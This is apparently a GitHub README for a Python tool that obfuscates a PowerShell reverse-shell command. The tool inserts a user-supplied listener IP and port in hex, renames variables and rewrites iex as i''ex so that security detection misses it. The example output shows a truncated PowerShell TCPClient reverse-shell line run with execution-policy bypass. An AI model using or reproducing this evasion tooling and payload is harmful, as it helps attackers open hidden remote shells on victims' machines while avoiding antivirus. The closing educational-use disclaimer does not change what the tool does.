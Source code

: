 # Obfuscation Script for PowerShell Commands
This Python script takes a PowerShell command, obfuscates it, and replaces certain parts like IP addresses and ports with user-provided values in hexadecimal format. It is designed for users who want to modify PowerShell scripts for testing purposes or to better understand obfuscation techniques.

## Table of Contents

* Overview
* Prerequisites
* Installation
* Usage
* Functions Explanation
* get_user_input()
* obfuscate_script()
* random_string()
* replace_ip_and_port()
* ip_to_hex()
* convert_ips_to_hex()
* port_to_hex()
* convert_ports_to_hex()
* main()
* Example
* Disclaimer

## Overview
This script allows the user to input an IP address and port, then modifies a provided PowerShell script by:

* Obfuscating variable names.
* Replacing occurrences of iex to i''ex to make detection harder.
* Replacing placeholders for IP and port.
* Converting IP addresses and port numbers into hexadecimal format.

## Prerequisites
* Python 3.x
* Basic understanding of regular expressions and PowerShell scripting.

## Installation
Clone the repository and navigate to the project folder:
```bash
git clone https://github.com/your-username/your-repo-name.git
cd your-repo-name
```
## Usage
Run the script using the command:
```bash
python obfuscate_script.py

```
Follow the prompts to input the IP address and port, and the script will display the obfuscated PowerShell command.

## Functions Explanation
* get_user_input()
Purpose: Accepts user input for IP address and port, validating their formats.
## Validation:
+ Ensures the IP address is in the correct format (e.g., 192.168.1.1).
+ Ensures the port number is between 1 and 65535.
+ Raises: ValueError if the input is invalid.

## obfuscate_script()
* Purpose: Obfuscates variable names in the script and alters specific patterns.
## Details:
+ Uses regex to find all variables (excluding $PSHOME) and replaces them with randomly generated names.
+ Replaces occurrences of iex with i''ex to bypass some detection mechanisms.
+ Replaces occurrences of 'PS' with random UUID-like strings.

## random_string()
+ Purpose: Generates a random alphanumeric string of a specified length.
+ Parameters: length (default is 10).
+ Returns: A random string using ascii_letters and digits.

$$ replace_ip_and_port()
+ Purpose: Replaces placeholders for IP (*LHOST*) and port (*LPORT*) with the user-provided values.
+ Parameters: script, ip, port.

## ip_to_hex()
+ Purpose: Converts an IP address into its hexadecimal representation.
+ Parameters: ip (e.g., 192.168.1.1).
+ Returns: Hexadecimal string representation of the IP address.

## convert_ips_to_hex()
+ Purpose: Finds all IP addresses in the script and converts them to hexadecimal format.
+ Parameters: script.

## port_to_hex()
+ Purpose: Converts a port number to its hexadecimal representation.
+ Parameters: port.
+ Returns: Hexadecimal string of the port number.

## convert_ports_to_hex()
+ Purpose: Finds and converts all port numbers in the script (excluding 65535) to hexadecimal.
+ Parameters: script.

## main()
Purpose: The entry point of the script that coordinates user input, obfuscation, and replacements.

## Workflow:
+ Gets user input for IP and port.
+ Applies obfuscation to the PowerShell script.
+ Replaces placeholders with user inputs.
+ Converts IPs and ports to their hexadecimal representations.
+ Prints the final modified script.

## Example
Here’s an example of how to use the script:
```bash
Enter IP address: 192.168.1.10
Enter port: 8080
```

## Output (truncated for brevity):
```bash
Start-Process $PSHOME\powershell.exe -ArgumentList {-ep bypass -nop $client = New-Object System.Net.Sockets.TCPClient('0xc0a8010a',0x1f90);$stream = ...
```

## Disclaimer
This script is intended for educational purposes only. The use of this script for malicious purposes is strictly prohibited. Always ensure you have permission before testing on any network or system.









